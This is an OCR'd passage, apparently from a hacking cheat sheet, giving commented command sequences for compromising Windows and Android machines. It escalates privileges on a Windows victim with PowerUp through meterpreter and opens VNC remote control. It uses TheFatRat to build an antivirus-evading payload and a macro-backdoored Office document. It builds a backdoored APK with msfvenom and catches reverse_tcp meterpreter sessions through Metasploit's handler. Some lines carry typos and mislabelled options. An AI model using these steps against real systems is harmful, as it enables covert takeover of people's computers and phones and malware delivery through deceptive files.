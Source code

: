 sysinfo *// system info*  
  
*//now with try to enumerate to know misconfigurations on the w10
system*  
*//using PowerSploit*  
upload /path/PowerUp.ps1 powerup.ps1 *// with meterpreter*  
shell *// with shell with change from meterpreter to windows shell*  
*// now we execute powerup*  
powershell -ExecutionPolicy Bypass -Command \".
.\PowerUp.ps1;Invoke-AllChecks\"  
*// now we know that windows is vulnerable to dll injection*  
*// change to meterpreter shell with exit & run*  
run vnc *// will open a VNC remote control on the victim*  
  
*// Now we will try another method to gain access to a machine*  
*// with TheFatRat*  
chmod +x fatrat  
chmod +x setup.sh  
chmd +x powerfull.sh  
./setup.sh  
*//run fatrat*  
option 6 *// create fud.. \[Excelent\]*  
option 3 *// create apache + ps1*  
*//put the lhost and lport*  
enter the name **for** files : payload  
option 3 *// for choosing meterpreter/reverse_tcp*  
*// payload generated*  
option 9 *// back to the menu*  
option 7 *// create a back office*  
option 2 *// macro windows and select lhost and lport*  
*// enter the name for the doc file*  
*// use custom exe backdoor Y*  
option 3 *// reverse_tcp*  
*// backdoor inside the doc generate*  
  
*// share document with the server option 1 and 2 above*  
*// start msfconsole to gain meterpreter shell*  
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set LHOST my.ip  
set RHOST my.port  
exploit / run

#### Mobile Hacking

*// create a backdoor with msfvenom*  
msfvenom -p android/meterpreter/reverse_tcp \--platform android -a
dalvik LHOST=my.ip R \> path/backdoor.apk  
*// share with some of the three methods above*  
*// now with metasploit*  
use exploit/multi/handler  
set payload android/meterpreter/reverse_tcp  
set LHOST my.ip  
exploit -j -z *// exploit with a background job*  
*// install the apk in android & the session will open*  
sessions -i 1 *// will display the meterpreter*  
sysinfo *// to know the os*  
  